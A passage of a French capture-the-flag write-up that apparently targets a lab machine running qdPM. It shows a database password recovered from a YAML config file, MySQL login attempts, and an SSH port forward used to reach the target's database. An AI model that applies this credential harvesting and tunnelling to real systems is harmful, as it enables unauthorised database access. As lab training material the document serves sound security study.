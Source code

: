 Effectivement on trouve bien un YAML avec un password (seule la chaîne entre double quotes est à prendre en compte) :  

```
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true
```

Step in
-------

Je suis bien évidemment tenté d'accéder au mysql mais j'obtiens une erreur :  

```console
$ mysql -u qdpmadmin -h 192.168.2.9 -p qdpm
Enter password: 
ERROR 1045 (28000): Plugin caching_sha2_password could not be loaded: /usr/lib64/mysql/plugin/caching_sha2_password.so: cannot open shared object file: No such file or directory
```

Ce n'est pas mieux sur le port mysqlx :  

```console
$ mysql -u qdpmadmin -h 192.168.2.9 -P 33060 -p qdpm
Enter password: 
ERROR:
```

C'est peut-être relatif à ma version de MySQL : *mysql Ver 15.1 Distrib 10.6.5-MariaDB, for Linux (x86\_64) using EditLine wrapper*  

Vu que j'ai un mysql plus *"standard"* sur une autre machine je switch dessus et je forward le port :  

```console
$ ssh -L 4444:192.168.2.9:3306 devloop@192.168.1.47
```

Cette fois ça fonctionne :  

```console
$ mysql -u qdpmadmin -h 127.0.0.1 -P 4444  -p qdpm
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A 

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 96
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its 
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 

mysql> show databases;
+--------------------+ 
| Database           |
+--------------------+
```
